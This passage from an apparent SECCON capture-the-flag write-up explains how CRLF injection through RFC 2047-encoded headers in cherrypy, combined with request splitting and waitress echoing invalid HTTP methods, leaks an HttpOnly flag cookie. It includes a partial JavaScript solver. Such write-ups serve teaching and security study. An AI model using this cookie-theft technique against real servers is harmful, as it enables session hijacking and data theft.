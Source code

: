 Herein, the process for headers in cherrypy is as follows:

- https://github.com/cherrypy/cherrypy/blob/v18.8.0/cherrypy/_cprequest.py#L727
- https://github.com/cherrypy/cherrypy/blob/v18.8.0/cherrypy/lib/httputil.py#L251

cherrypy decodes headers following [RFC 2047](https://www.rfc-editor.org/rfc/rfc2047.html). So, you can attack with CRLF injection by sending decoded `\r\n` on headers.

#### Step 3: HttpOnly cookie exposure

Is it possible to construct a request whose response includes the flag cookie with CRLF injection?

`backend` uses [waitress](https://github.com/Pylons/waitress) as a WSGI to cherrypy. The following implementation is important to solve this challenge:

- https://github.com/Pylons/waitress/blob/v2.1.2/src/waitress/parser.py#L436-L437

If the first line of a HTTP request is invalid, waitress returns the invalid HTTP method in the body. By abusing this behavior, you can steal the flag from the response body.

There are three points to steal the flag:

- HTTP request splitting with CRLF injection
- Adjusting a `Content-Length` value of the first splitted request so that the cookie value is at the position of the HTTP method of the second splitted request
- Adding another cookie so that the second request matches with the following regex:
    ```python
    # From: https://github.com/Pylons/waitress/blob/v2.1.2/src/waitress/parser.py#L409-L413
    first_line_re = re.compile(
        b"([^ ]+) "
        b"((?:[^ :?#]+://[^ ?#/]*(?:[0-9]{1,5})?)?[^ ]+)"
        b"(( HTTP/([0-9.]+))$|$)"
    )
    ```
    - E.g. `document.cookie = '/?a=b HTTP/1.1'`
    - Then, the first line is `flag=SECCON{real_flag}; /?a=b HTTP/1.1` and it matches with the regex.

### Solver

```javascript
const fastify = require("fastify")();

const fail = (message) => {
  console.error(message);
  return process.exit(1);
};

const SECCON_BASE_URL = process.env.SECCON_BASE_URL ?? fail("No SECCON_BASE_URL");
const ATTACK_BASE_URL = process.env.ATTACK_BASE_URL ?? fail("No ATTACK_BASE_URL");

const LISTEN_PORT = process.env.PORT ?? "8080";

const sleep = (msec) => new Promise((resolve) => setTimeout(resolve, msec));

const exploit = async () => {
  const encode = (bs) => {
    // ref. https://www.rfc-editor.org/rfc/rfc2047.html#section-2
    charset = "iso-8859-1";
    encoding = "q";
    encoded_text = Array.from(Buffer.from(bs))
      .map((x) => "=" + Buffer.from([x]).toString("hex"))
      .join("");
    return `=?${charset}?${encoding}?${encoded_text}?=`;
  };

```

[^top-1]: Because of my lack of consideration, many players solved this challenge by unintended solutions :cry:
[^spanote-1]: In fact, you can skip this step because bfcache is disabled by [default options](https://github.com/puppeteer/puppeteer/blob/v19.2.0/packages/puppeteer-core/src/node/ChromeLauncher.ts#L175) of puppeteer.